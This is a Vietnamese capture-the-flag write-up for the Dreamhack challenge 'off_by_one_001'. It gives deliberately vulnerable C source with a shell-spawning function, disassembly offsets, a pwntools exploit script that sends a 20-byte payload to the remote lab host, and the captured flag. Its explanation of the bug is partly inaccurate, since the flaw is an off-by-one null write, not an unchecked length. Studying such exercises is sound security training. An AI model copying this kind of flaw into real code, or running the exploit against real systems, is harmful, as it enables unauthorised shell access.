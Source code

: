 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}

```

- Hàm `read_str()` được sử dụng để đọc chuỗi từ người dùng. Hàm này sẽ đọc tối đa size ký tự từ đầu vào và lưu trữ chúng trong ptr. Sau đó, hàm in ra độ dài của chuỗi đã đọc và thêm ký tự null vào cuối chuỗi. Hàm này không kiểm tra độ dài tối đa của chuỗi đầu vào và cho phép người dùng nhập vào một chuỗi dài hơn kích thước của mảng name (20 ký tự) -> Có lỗi `bof`
- Trong hàm `main()`, chương trình yêu cầu người dùng nhập tên của họ bằng lời nhắc "Name: " và gọi hàm `read_str()` để đọc chuỗi đầu vào. Sau đó, chương trình yêu cầu người dùng trả lời câu hỏi "Are you baby?" Nếu biến age = 0, chương trình sẽ gọi hàm `get_shell()` để thực thi shell của hệ thống. Nếu không, chương trình sẽ yêu cầu người dùng nhập một chuỗi bất kỳ và kết thúc chương trình.

**2. Ý tưởng**

Nhập tràn biến `name` đến `age` để `age` nhận 0 -> gọi được hàm `get_shell()`

**3. Khai thác**

```
   0x08048675 <+33>:    lea    eax,[ebp-0x18]
   0x08048678 <+36>:    push   eax
   0x08048679 <+37>:    call   0x8048609 <read_str>
```

```
   0x0804868e <+58>:    cmp    DWORD PTR [ebp-0x4],0x0
```

Ta thấy biến `name` cách ebp 0x18 byte còn `age` cách ebp 0x4 byte nên `name` cách `age` 0x18 - 0x4 byte.

Ta có script như sau:

```
from pwn import *

exe = ELF('off_by_one_001', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 13664)

payload = b'a'*(0x18 - 0x4)
r.sendafter(b'Name: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{343bab3ef81db6f26ee5f1362942cd79}`